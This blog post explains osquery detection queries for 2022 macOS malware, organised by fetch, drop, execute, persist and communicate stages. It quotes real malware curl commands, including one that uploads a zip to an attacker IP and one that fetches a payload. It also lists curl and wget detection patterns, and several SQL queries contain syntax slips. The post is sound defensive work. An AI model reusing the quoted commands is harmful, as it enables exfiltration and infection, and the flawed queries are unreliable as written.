

Behavioral detection of macOS malware using osquery

As part of my duties at Chainguard, I maintain an osquery based detection pipeline. As an open-source first company, we naturally open-sourced our production queries as part of the osquery-defense-kit. When new Malware reports are released, I'll typically consume them to gather ideas for improving the effectiveness of our queries.
With the new year upon us, Objective See recently published a retrospective report on the most interesting Mac Malware of 2022. This was an excellent opportunity to review the evidence to see which queries are the most effective. I am additionally thankful that Objective See publishes Malware binaries for additional review, as some of the evidence this report relies on had to be extracted from the original binaries.
Which queries found which Malware?
These are the top alerts from the osquery-defense-kit that you should expect to fire if one of these Malware packages from the report are running on a host:
| Malware | Talkers | ExecDir | New Executable | Launchd Arguments | Shell Parents | Sketchy Fetchers | Tmp Executables | Fetcher Parents |
|---|---|---|---|---|---|---|---|---|
| SysJoker | Y | Y | Y | Y | Y | Y | ||
| DazzleSpy | Y | Y | Y | Y | Y | Y | ||
| Coinminer | Y | Y | Y | Y | Y | Y | ||
| GIMMICK | Y | Y | Y | Y | Y | Y | Y | |
| oRat | Y | Y | Y | Y | Y | Y | ||
| CrateDepression | Y | Y | Y | Y | Y | Y | Y | |
| pymafka | Y | Y | Y | Y | Y | Y | Y | |
| VPN Trojan (Covid) | Y | Y | Y | Y | Y | |||
| CloudMensis | Y | Y | Y | Y | Y | |||
| rShell (Mimi) | Y | Y | Y | Y | Y | |||
| Insekt | Y | Y | Y | Y | Y | |||
| KeySteal | Y | Y | Y | |||||
| SentinelSneak | Y | Y | Y | Y | ||||
Other queries that you should expect to see triggered are: exotic-commands, unexpected-library-entries, and fake-apple-launchd-entries.
Generically detecting Malware via behavior analysis
Almost uniformly, an intrusion on a macOS or Linux host is going to go through the following steps:
- Fetch: Get a program to install from an external source
- Drop: Place a program in a known writeable location within the filesystem
- Prepare: Modify the execution settings of that program (chmod +x, xattr -c)
- Execute: Run the newly installed program
- Persist: Configure persistence for that program across reboots
- Communicate: Contact an external host via TCP/IP
Looking back at our table of matching queries, they all map to one of these stages. Let's dive into each of these stages and see what each query is doing under the hood.
Fetch: Finding Sketchy Fetchers
This is one of my personal favorite queries. The first step in nearly every infection is to download additional stages, and the most popular way to do this without any additional code is curl.
When an attacker invokes curl, they typically do so with quirks that make it stand out from other callers:
-kis used to turn off SSL validation- Flags such as
--connect-timeoutare often used to improve reliability on poor connections - Non-standard ports are used
- The target is often an IP
- When the target is DNS, it is often in an atypical TLD
- Rarely, but occasionally runs curl or wget as root
Can you combine all these quirks into a single query? The answer is yes!
SELECT
pe.pid,
TRIM(pe.cmdline),
REGEX_MATCH (pe.cmdline, '(\w+:\/\/.*)\b', 1) AS url,
REGEX_MATCH (pe.cmdline, '//(\d+\.\d+\.\d+\.\d+)[:/]', 1) AS ip,
REGEX_MATCH (pe.cmdline, ':(\d+)', 1) AS port,
REGEX_MATCH (pe.cmdline, '//([\w\-\.]+)[:/]', 1) AS addr,
REGEX_MATCH (pe.cmdline, '//[\w\-\.]+\.(\w+)[:/]', 1) AS tld,
pe.cwd,
pe.euid,
p.cgroup_path,
pp.path AS parent_path,
TRIM(pp.cmdline) AS parent_cmdline
FROM
process_events pe
LEFT JOIN processes p ON pe.pid = p.pid
LEFT JOIN processes pp ON pe.parent = pp.pid
WHERE
pe.time > (strftime('%s', 'now') -86400)
AND (
INSTR(pe.cmdline, 'wget ') > 0
OR INSTR(pe.cmdline, 'curl ') > 0
)
AND (
ip NOT IN ('', '127.0.0.1', '::1')
OR port != ''
OR tld NOT IN (
'',
'app',
'ca',
'cloud',
'com',
'de',
'dev',
'edu',
'fun',
'gov',
'io',
'md',
'mil',
'net',
'org',
'se',
'sh',
'so',
'uk'
)
OR pe.cmdline LIKE '%.onion%'
OR pe.cmdline LIKE '%curl -k%'
OR pe.cmdline LIKE '%curl -sL %'
OR pe.cmdline LIKE '%curl%--connect-timeout%'
OR pe.cmdline LIKE '%curl%--output /dev/null%'
OR pe.cmdline LIKE '%curl%--O /dev/null%'
OR pe.cmdline LIKE '%curl%--insecure%'
OR pe.cmdline LIKE '%curl%-o-%'
OR pe.cmdline LIKE '%wget %--user-agent%'
OR pe.cmdline LIKE '%wget %--no-check-certificate%'
OR pe.cmdline LIKE '%wget -nc%'
OR pe.cmdline LIKE '%wget -t%'
OR pe.euid < 500
)
The full query can be found here: sketchy-fetcher-events.sql.
Here are some examples of how the macOS malware from 2022 is invoking fetchers in a way that matches the above query:
- Gimmick:
curl -o %s http://cgi1.apnic.net/cgi-bin/my-ip.php --connect-timeout 10 -m 20 - pymafka:
curl -A O -o- -L http://39.107.154[.]72/env - SentinelSneak:
curl -k -F "file=@" <zip> https://54.254.189[.]27/api/v1/file/upload - oRAT:
curl -sL https://d.github[.]wiki/mac/darwinx64 -O
It's worth noting that this query includes processes.cgroup_path, which can be useful to filter out containerized applications on Linux, as they will often be run from lower euids.
Drop: Executables in temporary directories
It's very rare for executables to be found in /tmp or /var/tmp, particularly on macOS; the former is deleted on reboot. It is however popular for Malware to store binaries here, as it is reliably writeable across UNIX platforms, as folks rarely poke around these folders.
In the examples we examined above, there are a few examples:
- pymafka:
/var/tmp/zad - CoinMiner:
/tmp/lauth - DazzleSpy:
/tmp/airportpaird - CrateDepression:
/tmp/git-updater.bin - MiMi:
/tmp/rshell - Alchimist:
/tmp/Res/Payload - Gimmick:
/tmp/*
Here's a query that should find all of those examples and more:
SELECT
file.path,
uid,
gid,
mode,
REGEX_MATCH (RTRIM(file.path, '/'), '.*\.(.*?)$', 1) AS extension,
file.mtime,
file.size,
hash.sha256,
magic.data
FROM
file
LEFT JOIN hash on file.path = hash.path
LEFT JOIN magic ON file.path = magic.path
WHERE
(
file.directory = '/tmp' OR
file.directory LIKE '/tmp/%%'
file.directory = '/var/tmp' OR
file.directory LIKE '/var/tmp/%%'
)
AND file.type = 'regular'
AND size > 10
-- Don't alert if the file is only on disk for a moment
AND (strftime('%s', 'now') - ctime) > 30
AND (
file.mode LIKE '%7%'
or file.mode LIKE '%5%'
or file.mode LIKE '%1%'
)
-- macOS updates
AND NOT file.directory LIKE '/tmp/msu-target-%'
-- Other programs
AND NOT file.path LIKE '/tmp/ko/bin/%'
AND NOT extension IN ('sh', 'json')
AND NOT file.name IN ('configure', 'mkinstalldirs')
If you have developers, you may need to tune this carefully, as they will occasionally extract source code into /tmp and build code there if it is disposable. This behavior appears more common with Linux developers than macOS developers.
Execute: Unexpected Executable Directory
Malware typically drops an initial program in a known writeable directory that is not easily noticed. Malware authors rarely choose directories where other binaries are already installed. The gist of this query is: to detect which programs are running from places we don't usually see programs running from.
SELECT
p.pid,
p.name,
p.path,
p.euid,
p.gid,
f.ctime,
f.directory AS dir,
REGEX_MATCH (
REPLACE(f.directory, u.directory, '~'),
'(~/.*?/)',
1
) AS top_homedir, -- 1 level deep
p.cmdline,
signature.identifier,
signature.authority
FROM
processes p
LEFT JOIN file f ON p.path = f.path
LEFT JOIN users u ON p.uid = u.uid
LEFT JOIN signature ON p.path = signature.path
WHERE
dir NOT IN (
'/bin',
'/opt/usr/bin',
'/opt/X11/bin',
'/opt/X11/libexec',
'/sbin',
'/usr/bin',
'/usr/lib',
'/usr/lib/bluetooth',
'/usr/lib/cups/notifier',
'/usr/libexec',
'/usr/libexec/ApplicationFirewall',
'/usr/libexec/AssetCache',
'/usr/libexec/firmwarecheckers',
'/usr/libexec/firmwarecheckers/eficheck',
'/usr/libexec/rosetta',
'/usr/lib/fwupd',
'/usr/lib/ibus',
'/usr/lib/system',
'/usr/local/bin',
'/usr/sbin'
)
AND top_homedir NOT IN (
'~/Applications/',
'~/Applications (Parallels)/',
'~/go/',
'~/bin/'
)
AND dir NOT LIKE '/Applications/%'
-- Allow these anywhere (put last because it's slow to query signatures)
AND signature.authority NOT IN (
'Apple iPhone OS Application Signing',
'Apple Mac OS Application Signing',
'Developer ID Application: Adobe Inc. (JQ525L2MZD)',
'Software Signing'
)
This query is low maintenance, but if you have a lot of developers, you may find yourself adding more home directory or temp directory exceptions. For an event-based version of this query, see execution/unexpected-execdir-events-macos.sql.
Execute: Unexpected New Executable
Malware will typically execute a program as soon as it hits the disk. It's pretty easy to write a query to see which software was executed shortly after the executable birth time (btime) or inode change time (ctime).
Here's a basic query you can use to see which programs were started within 2 minutes (120 seconds) of being installed and were started in the last day (86400 seconds).
SELECT
p.pid,
p.path,
p.name,
p.cmdline,
p.cwd,
p.euid,
p.parent,
f.directory,
f.ctime,
f.btime,
f.mtime,
p.start_time,
signature.authority,
signature.identifier
FROM
processes p
LEFT JOIN file f ON p.path = f.path
LEFT JOIN signature ON p.path = signature.path
WHERE
p.start_time > 0
AND f.ctime > 0
AND p.start_time > (strftime('%s', 'now') - 86400)
AND (p.start_time - MAX(f.ctime, f.btime)) < 120
AND p.start_time >= MAX(f.ctime, f.ctime)
AND signature.authority NOT IN (
'Apple Mac OS Application Signing',
'Developer ID Application: Adobe Inc. (JQ525L2MZD)',
'Software Signing'
)
AND NOT p.path LIKE '/Applications/%.app/%'
AND NOT (
p.path LIKE '/Users/%'
AND p.uid > 499
AND f.ctime = f.mtime
AND f.uid = p.uid
AND p.cmdline LIKE './%'
)
GROUP BY
p.pid
The false positives you typically see here are auto-updating software like Google Chrome. Before deploying this query, you'll want to update the list of signature authorities you feel comfortable with. For the full query source, see execution/unexpected-execdir-macos.sql, and for the event-based version, see unexpected-execdir-events-macos.sql
Execute: Unexpected Shell Parents
Malware will typically allow for command execution within a shell, which is not something most software does. The path to the shell used may differ between Malware, but they typically fall into two camps:
/bin/bash: Mentioned by CloudMensis, DazzleSpy, Gimmick, oRAT, rShell/bin/sh: Mentioned by CloudMensis, DazzleSpy, Insekt, KeySteal, oRATbash: Mentioned by pymafka (no path!)
If you maintain a list of programs you expect to launch a shell you can detect some exciting things. You can also get a bit more specific, by detecting particular flags such as -s' (pymafka) and -c` (SentinelSneak), but you are likely to miss many other types of execution.
Here's an example base query, using process_events (backwards looking):
SELECT
pe.path AS child_path,
pe.pid,
REGEX_MATCH (pe.path, '.*/(.*)', 1) AS child_name,
TRIM(pe.cmdline) AS child_cmd,
pe.parent AS parent_pid,
TRIM(IIF(pp.cmdline != NULL, pp.cmdline, ppe.cmdline)) AS parent_cmd,
TRIM(IIF(pp.path != NULL, pp.path, ppe.path)) AS parent_path,
REGEX_MATCH (
IIF(pp.path != NULL, pp.path, ppe.path),
'.*/(.*)',
1
) AS parent_name
FROM
process_events pe
LEFT JOIN processes p ON pe.pid = p.pid
LEFT JOIN processes pp ON pe.parent = pp.pid
LEFT JOIN process_events ppe ON pe.parent = ppe.pid
WHERE
pe.path IN ('/bin/bash', '/bin/sh')
AND pe.time > (strftime('%s', 'now') -600)
AND NOT parent_pid = -1
AND NOT (
parent_name IN (
'zsh',
'kubectl',
'sudo',
'bash',
'sh',
'git'
)
OR child_cmd IN (
'sh -c python3.7 --version 2>&1',
'sh -c xcode-select --print-path >/dev/null 2>&1 && xcrun --sdk macosx --show-sdk-path 2>/dev/null'
)
)
GROUP BY
pe.pid
We do some gymnastics in the above query to determine the name of the parent process: and preferring the name of active processes over past processes in the process_events table. We also use TRIM() as osquery often includes trailing spaces in process_events table.
For the full source code, see initial_access/unexpected-shell-parent-events.sql)
Persistence: Launchd Program Arguments
While there are numerous ways to configure a program to launch after reboots, launchd is by far the most popular method on macOS. This is even the case for Malware, so you should be auditing any unknown launchd users.
While the osquery-defense-toolkit has many launchd related queries, we're going to focus on unexpected-launchd-program-arguments.sql) here because it would have caught 2/3rds of the Malware we covered. Here's a simplified version of the query:
SELECT
l.label,
l.name,
l.path,
TRIM(REGEX_SPLIT (l.program_arguments, ' -', 0)) AS program_path,
l.program_arguments,
l.keep_alive,
signature.authority AS program_authority,
hash.sha256
FROM
launchd l
LEFT JOIN signature ON program_path = signature.path
LEFT JOIN hash ON program_path = hash.path
WHERE
(
run_at_load = 1
OR keep_alive = 1
)
AND (
program IS NULL
OR program = ''
)
AND l.path NOT LIKE '/System/%'
AND program_authority NOT IN (
'Developer ID Application: Microsoft Corporation (UBF8T346G9)',
'Software Signing'
)
AND program_arguments NOT IN (
'/opt/homebrew/opt/mariadb/bin/mysqld_safe',
'/opt/homebrew/opt/skhd/bin/skhd',
)
This is a low-maintenance query, only requiring periodic maintenance of the list of acceptable program authorities. There is a carve out at the end to list acceptable arguments from unsigned launchd entries, such as what you may see with Homebrew.
It's worth noting that programs may choose to configure themselves using launchd.program instead of launchd.program_arguments, but that method is less flexible as does not allow for flags to be passed and thus does not seem to b popular with Malware authors. For an example of detecting launchd programs that do not use arguments, see unexpected-launchd-program.sql
Communications: Unexpected Talkers
The root of this query is: to know which programs talk to whom on your network. On macOS, you can use binary signatures to confidently disambiguate between software packages than install locations. You can see the full query source at c2/unexpected-talkers-macos.sql, but this is the base:
SELECT
protocol,
s.local_port,
s.remote_port,
s.remote_address,
p.name,
p.path,
p.cmdline AS child_cmd,
p.cwd,
s.pid,
p.parent AS parent_pid,
pp.path AS parent_path,
pp.cmdline AS parent_cmd,
CONCAT (
MIN(s.remote_port, 32768),
',',
protocol,
',',
MIN(p.uid, 500),
',',
p.name,
',',
signature.identifier,
',',
signature.authority
) AS exception_key
FROM
process_open_sockets s
LEFT JOIN processes p ON s.pid = p.pid
LEFT JOIN processes pp ON pp.pid = p.parent
LEFT JOIN signature ON p.path = signature.path
WHERE
protocol > 0
AND s.remote_port > 0
-- Not apple software
AND NOT (
signature.identifier LIKE 'com.apple.%'
AND signature.authority = 'Software Signing'
AND remote_port IN (53, 443, 80)
AND protocol IN (6, 17)
)
AND NOT exception_key IN (
'22,6,500,Cyberduck,ch.sudo.cyberduck,Developer ID Application: David Kocher (G69SCX94XU)',
'443,6,0,Install,com.adobe.Install,Developer ID Application: Adobe Inc. (JQ525L2MZD)',
'22,6,500,ssh,com.apple.openssh,Software Signing'
)
The first time you run this query, prepare to feel overwhelmed by all the non-Apple applications you see on the network. The technique I've found useful to build up a list of exceptions is to dump all the results to a programmatic form (CSV, JSON), sort and unique them, and autogenerate the correct syntax to include them into the SQL query.
The calls to MIN() are to disambiguate between root and non-root UIDs and ephemeral port ranges.
One important caveat about the above query is that it uses process_open_sockets, which only shows currently open connections, rather than socket_events which allows you to inspect recent events. This means that there is potentially a race condition in which you may not see the talker if it has already closed the connection. For a backward-looking version of this query, try something like:
SELECT
protocol,
s.local_port,
s.remote_port,
s.remote_address,
p.name,
p.path,
p.cmdline AS child_cmd,
p.cwd,
s.pid,
p.parent AS parent_pid,
pp.path AS parent_path,
pp.cmdline AS parent_cmd,
CONCAT (
MIN(s.remote_port, 32768),
',',
MIN(p.uid, 500),
',',
p.name,
',',
signature.identifier,
',',
signature.authority
) AS exception_key
FROM
socket_events s
LEFT JOIN processes p ON s.pid = p.pid
LEFT JOIN processes pp ON pp.pid = p.parent
LEFT JOIN signature ON p.path = signature.path
WHERE s.remote_port > 0
AND s.time > (strftime('%s', 'now') -600)
AND NOT (
signature.identifier LIKE 'com.apple.%'
AND signature.authority = 'Software Signing'
AND remote_port IN (53, 443, 80)
AND protocol IN (6, 17)
)
AND NOT exception_key IN (
'22,6,500,Cyberduck,ch.sudo.cyberduck,Developer ID Application: David Kocher (G69SCX94XU)',
'443,6,0,Install,com.adobe.Install,Developer ID Application: Adobe Inc. (JQ525L2MZD)',
'22,6,500,ssh,com.apple.openssh,Software Signing'
)
On my osquery installation, socket_events.protocol is always NULL, so I've omitted it in the second query.
One optimization we use in the full version of c2/unexpected-talkers-macos.sql is skipping SIP-protected paths. Checking the signatures of every binary is expensive, so as a performance optimization, we skip the paths that cannot normally be written to.
Some applications are less predictable when it comes to outgoing ports to use, for example: web browsers or SyncThing. For those
you may want to craft more targetted logic than relying on exception_key.
Expect this query to require a bit of maintenance: updating the list of entries weekly or daily. To make it easier to maintain, consider splitting out a list of HTTP/HTTPS talkers from the rest, as those protocols make up the bulk of communications on macOS. To further lower the maintenance burden, you could also have an exception list of "These signers can do whatever they want".
Follow-ups
While reviewing the evidence, several other possibilities for detection arose:
- Calls to 'chmod +x' or other variants: nearly universal across Malware samples
- Unexpected programs that link against SecurityFramework: GIMMICK, oRAT, CloudMensis, Covid, KeySteal
- Unexpected programs that link against SystemConfiguration.framework: GIMMICK, CloudMensis, DazzleSpy
- Unexpected calls to launchctl load: CloudMensis, CoinMiner, DazzleSpy, GIMMICK, KeySteal
- Unexpected .pkg signers: oRAT, KeySteal
- Unexpected calls to xattr -c: CloudMensis, KeyStealer
- Unexpected programs that link against libcurl: SysJoker
- Processes running with unexpected extensions (.ts): SysJoker
- Unexpected contents within /var/root: SysJoker, GIMMICK
- Unexpected executables within /Library: SysJoker
- Fake Adobe Launchd Services: Coinminer
- XMRig process arguments: Coinminer
- Calls to bash -s (stdin): pymafka
- Programs named "MacOs" (bad case): SysJoker, Pymafka
With any luck, some of these detection ideas will land in the osquery-defense-kit in the coming weeks. Help wanted!
Other weird things I noticed
- DazzleSpy specifically references
/Volumes/GRMCPRXFRER_CN_DVD(Windows 7 SP1 DVD ISO) - DazzleSpy references
/private/var/log/fsck_hfs.log- which seems like a weird log to exfiltrato. - oRat doesn't have an obvious built-in persistence mechanism, though that may be deployed in a subsequent payload.
- VPN Trojan (Covid) references
enableReLaunchOnLogin, but doesn't have a known persistence mechanism. - CloudMensis includes ancient Safari escapes: https://github.com/maximehip/Safari-iOS10.3.2-macOS-10.12.4-exploit-Bugs/blob/master/Makefile
- CloudMensis references files I haven't seen mentioned before:
/Users/%/Library/Logs/imis.log(possibly just a typo for ims.log), and/Library/Application Support/Apple/Fonts/iWork/.Standard.ttc - CloudMensis contains some interesting calls to launchctl, such as "launchctl setenv HOME". This appears to be related to a TCC bypass for CVE-2020–9934.
- Insekt has references to the pkexec exploit (Linux). Specifically,
/Users/woody/Downloads/vul/poc-cve-2021-4034-main/exploit.go
Do let me know if you found this post useful!